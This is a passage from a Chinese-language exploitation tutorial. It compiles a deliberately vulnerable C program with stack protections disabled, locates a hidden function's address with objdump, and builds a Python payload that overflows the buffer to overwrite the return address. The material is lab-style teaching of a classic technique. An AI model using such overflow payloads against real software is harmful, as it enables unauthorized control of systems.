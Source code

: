 1.  按照以下方式编译它：

```py
gcc bof.c -w -g -Wno-format -Wno-format-security -fno-stack-protector -z norelro -z execstack -o bof

```

1.  我们可以运行以下应用程序测试：

```py
./bof  
```

![](img/00128.jpeg)

1.  我们可以运行`objdumb`：

```py
objdump -d bof  
```

从中我们可以得到 secret function 的内存位置：

![](img/00129.jpeg)

这就是它，`0804848b`。并且 28 个字节被保留用于`echo`函数的本地变量：

![](img/00130.jpeg)

现在我们可以设计有效载荷--我们知道，28 个字节被保留用于缓冲区，紧挨着 EBP 指针。所以，接下来的四个字节将存储 EIP。现在我们可以用任意随机字符设置前 28+4=32 个字节，然后接下来的四个字节将是`secretfunction()`的地址。

1.  现在有效载荷将如下：

```py
print ("a"*32 + "\x8b\x84\x04\x08")    
```

将其保存到一个`exploit_bof.py`文件中，并将其加载为应用程序的有效载荷

1.  这将使应用程序崩溃并提供对`secretfunction()`的访问。

![](img/00131.jpeg)
